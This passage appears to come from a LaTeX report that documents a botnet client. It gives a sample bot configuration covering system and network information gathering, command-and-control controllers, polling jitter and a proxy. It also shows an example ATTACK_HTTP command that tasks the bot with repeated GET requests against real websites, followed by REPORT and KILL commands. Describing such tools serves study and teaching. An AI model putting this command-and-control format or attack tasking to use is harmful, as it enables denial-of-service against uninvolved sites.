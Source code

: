 \section{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works. We suggest the reader to refer to \cite{video-tutorial} to better undesrtand how configuration and commands could be conveniently generated.

In thi example, the bot is run in default mode with the following configuration:

\begin{verbatim}
  cnfInfo: True
  tgtInfo: True
  sysInfo: True
  netInfo: True
  controllers:
    - init: invalid/botinit.json
      command: invalid/botcmd.json
      log: invalid/botlog.json
    - init: controller/botinit.json
      command: controller/botcmd.json
      log: controller/botlog.json
  polling: 90-120:SECONDS
  reconnections: 3
  reconnectionWait: 2-5:SECONDS
  proxy: none
  userAgent: MyAwesomeBot
\end{verbatim}

Notice that the first specified controller is an invalid one - it mimics an unrecheable or compromised contoller.
The controller gives the bot the following \texttt{ATTACK-HTTP} command:

\begin{verbatim}
  {
    "command": "ATTACK_HTTP",
    "attacks": [
      {
        "method": "GET",
        "target": "http://www.twitter.com"
      },
      {
        "method": "GET",
        "target": "http://www.google.com",
        "proxy": "31.220.56.101:80",
        "properties": {
          "User-Agent": "MyAwesomeBot"
        },
        "executions": 3,
        "period": "10-15:SECONDS"
      }
    ]
  }
\end{verbatim}

followed by commands \texttt{REPORT} and \texttt{KILL}.
The following is the console output\footnote{classes and methods name indicated in \ref{sec:logging} have been omitted for better page formatting.}:

